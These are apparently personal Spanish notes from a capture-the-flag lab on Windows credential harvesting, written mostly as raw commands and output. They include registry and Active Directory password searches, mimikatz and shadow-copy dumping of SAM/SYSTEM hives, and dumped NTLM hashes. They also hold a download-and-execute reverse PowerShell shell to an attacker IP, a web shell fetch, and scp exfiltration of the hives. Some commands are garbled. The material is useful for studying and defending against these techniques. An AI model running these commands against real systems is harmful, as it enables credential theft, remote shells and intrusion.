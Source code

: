 
Machine IP: MACHINE_IP            Username: thm         Password: Passw0rd!


rdesktop -u thm -p Passw0rd! <IP_o_dominio>


xfreerdp /u:thm /p:Passw0rd! /v:10.201.52.15 /dynamic-resolution

## Como ejemplo de un comando de historial, un comando de PowerShell guarda los comandos ejecutados en un archivo de historial en un perfil de usuario, en la siguiente ruta: 

```bash
C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```


##  reg query que mencionas se utiliza para buscar contraseñas almacenadas en el registro de Windows (Registry). Es una técnica común en auditorías de seguridad o pruebas de penetración para encontrar credenciales guardadas de forma insegura. 


- reg query: Consulta el registro de Windows.
- HKLM o HKCU:
- HKLM (HKEY_LOCAL_MACHINE): Contiene configuraciones globales del sistema.
- HKCU (HKEY_CURRENT_USER): Contiene configuraciones específicas del usuario actual.
- /f password: Busca la cadena "password" (no distingue mayúsculas/minúsculas).
- /t REG_SZ: Filtra solo valores de tipo cadena (REG_SZ).
- /s: Realiza una búsqueda recursiva en todas las subclaves.



c:\Users\user> reg query HKLM /f password /t REG_SZ /s #OR

C:\Users\user> reg query HKCU /f password /t REG_SZ /s




a) Buscar en HKEY_LOCAL_MACHINE (HKLM)

reg query HKLM /f "flag" /t REG_SZ /s


    HKLM: Clave del registro que almacena configuraciones globales del sistema.

    /f "flag": Busca la cadena exacta "flag" (no distingue mayúsculas/minúsculas).

    /t REG_SZ: Filtra solo valores de tipo cadena (texto).

    /s: Búsqueda recursiva en todas las subclaves.

b) Buscar en HKEY_CURRENT_USER (HKCU)
cmd
reg query HKCU /f "flag" /t REG_SZ /s





reg query HKLM /f "flag" /t REG_SZ /s


password:  7tyh4ckm3



# Enumerar Usuarios y Verificar Descripciones
En AD, a veces las contraseñas se guardan accidentalmente en el campo description (descripción).
Puedes enumerarlo con estos métodos:

net user /domain




# Método 2: Con PowerShell (Más detallado)
powershell
Get-ADUser -Filter * -Properties Description | Where-Object { $_.Description -ne $null } | Format-Table Name,Description
Filtra usuarios con descripciones no vacías.

Si hay un usuario llamado "victim", revisa su descripción.

# Método 3: Búsqueda Directa de Contraseñas
powershell

Get-ADUser -Filter {Description -like "*password*"} -Properties * | Select-Object DistinguishedName, SamAccountName, Description



Import-Module ActiveDirectory
Get-ADUser -Filter * -Properties * | Select-Object DistinguishedName, SamAccountName, Description





Obenert el HASH NTLM

# usaremos wmic para crear una instantánea de volumen.
 cd

privilege::debug
token::elevate
lsadump::sam



wmic shadowcopy call create Volume='C:\'



IEX(New-Object Net.WebClient).DownloadString('http://10.8.163.249:8000/shell.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.8.163.249:8000 -Port 4444



curl -u http://10.8.163.249:8000/shell.php -o C:\xampp\htdocs\shell.php 




wmic shadowcopy call create Volume='C:\'

    Executing (Win32_ShadowCopy)->create()
    Method execution successful.
    Out Parameters:
    instance of __PARAMETERS
    {
        ReturnValue = 0;
        ShadowID = "{D8A11619-474F-40AE-A5A0-C2FAA1D78B85}";
    };


vssadmin list shadows



copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam

        1 file(s) copied.



copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
        1 file(s) copied.






reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg


reg save HKLM\system C:\users\Administrator\Desktop\system-reg


scp * kali@10.8.163.249:/home/kali/.


└─$ impacket-secretsdump -sam sam-reg -system system-reg LOCAL  
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
                                                                                                                                                 
┌──(kali㉿kali)-[~/Downloads/CredentialsHarvesting]
└─$ 








smb://10.201.52.15/SYSVOL/
smb://10.201.52.15/NETLOGON/

